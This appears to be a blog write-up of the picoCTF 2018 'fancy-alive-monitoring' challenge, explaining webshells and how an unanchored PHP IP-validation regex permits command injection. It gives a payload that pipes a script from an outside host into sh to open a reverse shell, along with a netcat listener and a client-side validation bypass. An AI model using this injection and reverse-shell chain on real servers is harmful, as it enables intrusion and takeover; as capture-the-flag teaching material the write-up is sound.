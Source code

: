 ## fancy-alive-monitoring - Points: 400
>One of my school mate developed an alive monitoring tool. Can you get a flag from http://2018shell.picoctf.com:8587?

Note.
>The CTF server somehow blocked the outbound connection to non-standard ports. So on our own server, we need to listen on port 80, `sudo nc -lvp 80`.

The main purpose of this blog post is to demonstrate how to get a webshell from a web server.

A few facts about Webshell,

- Webshell, as its name indicates, is to obtain a shell by means of a website.

  This diffs from how shell is usually accessed, which is either remotely via SSH, or log in directly in a server's console.

- A shell can be either a Linux shell, like Bash/Zsh, etc., or a command prompt from Windows.


Of course, above is my understanding of what a Webshell is, and what I believe the term "Webshell' should represent, not authoritative, but should be close.

A Webshell can be utilized to serve different purposes. It can be used to gain complete control of a web server; to search for sensetive information on the server; or to be used as a outpost to gather further information that can help to infiltrate other parts of the infrastructure that share the same network as the web server, etc. etc.

Ok, let us back to our main business.

First of all, the server code is published on the challenge's website.

A few points to note,

- The `check()` function in the embedded javascript is doing a validation check against the IP address user inputted.

  Some interesting methods I read from other writeups to circumvent it,

  - we can send a HTTP POST request directly to the web server, thus bypassing the javascript validation.
  - or we can simiply replace the `check()` function in the `Console` inside the developer tool of a browser, with the following,

  ```javascript
  function check(){
    document.getElementById("monitor").submit();
  }
  ```

  That is, when the `Go!` button is clicked, the `check()` function will be calling `.submit()` right away to submit the form, without doing any validation against the input.

- After the data is posted to the server, there is a second check being performed.
`preg_match('/^(([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5]).){3}([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])/',$ip)`
  This check looks more promising, it does a decent job validating the IP address, which doesn't seem to expose any holes for exploitation.
  However, if we look more colsely, the regex doesn't end with a anchor `$`. That means as long as the data begins with a valid IP address, the data will be considered valid. This is where makes it vulnerable.
  
Since the symbol `;` can be used in PHP to chain the commands, if the payload of the POST request is `1.1.1.1 ; command`, then we can actually trick PHP to execute the command on the web sever!

Here, we will use the command to get a reverse shell from the web server, so the complete payload looks like, `1.1.1.1 ; curl https://shell.now.sh/52.18.79.59:5580 | sh`

`https://shell.now.sh` is a HTTP endpoint that accept an `IP:PORT` as a path parameter, that the web server will be connecting to.

In this demo, the machine to which the IP is attached is controlled by me, and the goal here is to instruct the web server to proactively connect to the `IP:PORT`, and present a shell on my machine, as if I am just SSH'ed into it.

To achieve that, we just do,

1. On my own machine, run `nc -lvp 80` to instruct it to listen on port 80.
1. Fire up `Console` in the developer tool, change the `check()` function to what just shown above.
1. Type in `1.1.1.1 ; curl https://shell.now.sh/52.18.79.59:5580 | sh` in the text box of the challenge website.
1. Back to `Console`, key in `check();` and press Enter.


